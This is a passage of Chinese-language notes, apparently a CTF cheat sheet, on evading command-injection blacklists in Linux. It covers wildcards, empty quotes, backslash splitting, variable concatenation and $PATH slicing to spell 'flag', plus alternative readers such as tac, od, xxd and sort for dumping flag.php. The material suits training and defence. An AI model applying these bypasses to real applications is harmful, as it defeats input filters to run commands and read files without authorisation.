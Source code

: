 	`?`在linux里面可以代替任何字母

	`*`可以进行模糊匹配

- 单引号,双引号绕过

	在被过滤的字符串中间插入`''`或`""`,起到空字符的作用,在linux中是可以正常执行的

- 反斜杠`\`绕过

	`cat f\lag.php`

	除了特殊字符去掉功能性;linux中`\`也有拼接的作用

- 特殊变量:`$1`	`$9`	`$@`	`$*`等

- 内敛执行:

	#自定义字符串,在拼接起来

	`a=fl;d=ag;cat $a$d.txt`

- 利用linux系统中的环境变量

	```
	echo $PATH                                                                                
	/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
	```

	```
	echo f${PATH:5:1}                                                                         
	fl                      
	```



# 常见文件读取命令绕过

绕过方法:

- `tac`反向显示

- `more`一页一页地显示内容

- `less`和more类似
- `tail`    #查看末尾几行

- `nl`     #显示的时候带上行号

- `od`   #以二进制方式读取文件

	`system("od -A d -c flag.php")`

- `xxd`和od类似

- `sort`  #主要用于排序文件

	sort也被过滤时可以尝试使用绝对路径,即`/usr/bin/s?rt`

- `uniq`   #报告或删除文件中重复的行,可以直接当cat用

- `file -f`    #报错出具体内容
